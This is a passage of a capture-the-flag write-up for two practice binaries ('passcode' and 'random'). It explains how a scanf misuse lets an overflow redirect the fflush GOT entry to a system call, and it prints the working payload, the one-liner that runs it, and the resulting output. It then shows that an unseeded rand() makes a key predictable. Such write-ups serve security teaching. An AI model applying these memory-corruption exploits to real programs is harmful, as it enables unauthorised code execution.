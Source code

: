 as we can see, the scanf is not used properly. So, the input is saved to dummy address inside passcode1 and passcode2. But luckily, we can overwrite the dummy value beforehand when welcome is called.

Let's just overwrite with the address to int that is used for cmp

following is the passcode:

first passcode: 0x528e6
second passcode: 0xcc07c9

welcome function saves input to ebp-0x70 while passcode1/2 is stored in ebp-0x10 and ebp-0xc. ebp is same in both function calls.

overwrite passcode1: ``'a'*96 + '\xe6\x28\x05\x00\n'``

But we run into a problem, input length is 100 so ebp-0xc cannot be overwritten.

However we are able to change first scanf destination. But where?

```
Dump of assembler code for function fflush@plt:
   0x08048430 <+0>:     jmp    DWORD PTR ds:0x804a004
   0x08048436 <+6>:     push   0x8
   0x0804843b <+11>:    jmp    0x8048410
End of assembler dump.
```
plt functions have jmp instruction inside them. By changing the dest for jmp, we can change the program flow

Lets change the destination to ``fflush@got`` (the jump destination for fflush@got) and overwrite it with ``0x80485e3`` (push /bin/sh; call system@plt)

payload : ``'a'*96 + '\x04\xa0\x04\x08\n134514147\n'``

```bash
passcode@ubuntu:~$ python -c "print 'a'*96 + '\x04\xa0\x04\x08\n134514147\n'" | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa╝�!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```

## 5. random
random.c
```c
#include <stdio.h>

int main(){
        unsigned int random;
        random = rand();        // random value!

        unsigned int key=0;
        scanf("%d", &key);

        if( (key ^ random) == 0xdeadbeef ){
                printf("Good!\n");
                system("/bin/cat flag");
                return 0;
        }

        printf("Wrong, maybe you should try 2^32 cases.\n");
        return 0;
}
```
the random function doesn't use any seed, leading it to return the same number everytime its been executed.
By debugging i found that random is 0x6b8b4567. Xor with 0xdeadbeef produces 0xb526fb88
